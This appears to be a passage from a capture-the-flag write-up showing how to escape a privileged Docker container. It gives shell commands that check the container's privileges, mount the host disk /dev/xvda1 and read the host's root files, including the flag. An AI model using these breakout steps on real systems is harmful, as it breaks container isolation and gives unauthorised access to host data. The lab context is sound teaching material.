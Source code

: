 * Now, we will have to break out of the Docker container to get the final flag; we can refer the [Docker breakout privesc vectors from this article](https://juggernaut-sec.com/docker-breakout-lpe/):

  ```sh
  # in root reverse-shell

  fdisk -l | grep -A 10 -i "device"

  cat /proc/1/status | grep -i "seccomp"

  ls /dev

  # all the outputs align with the given outputs in the article
  # this shows that we are root in a privileged container

  df -h
  # check which drive belongs to host so that we can mount it
  # /dev/xvda1 is mounted on /etc/hosts

  # we can mount xvda1 and then access all files on host
  # while we are still inside the Docker

  mkdir -p /mnt/test

  mount /dev/xvda1 /mnt/test

  ls -la /mnt/test
  # now we can see the file system of the actual host

  ls -la /mnt/test/root

  cat /mnt/test/root/root.txt
  # final flag
  ```
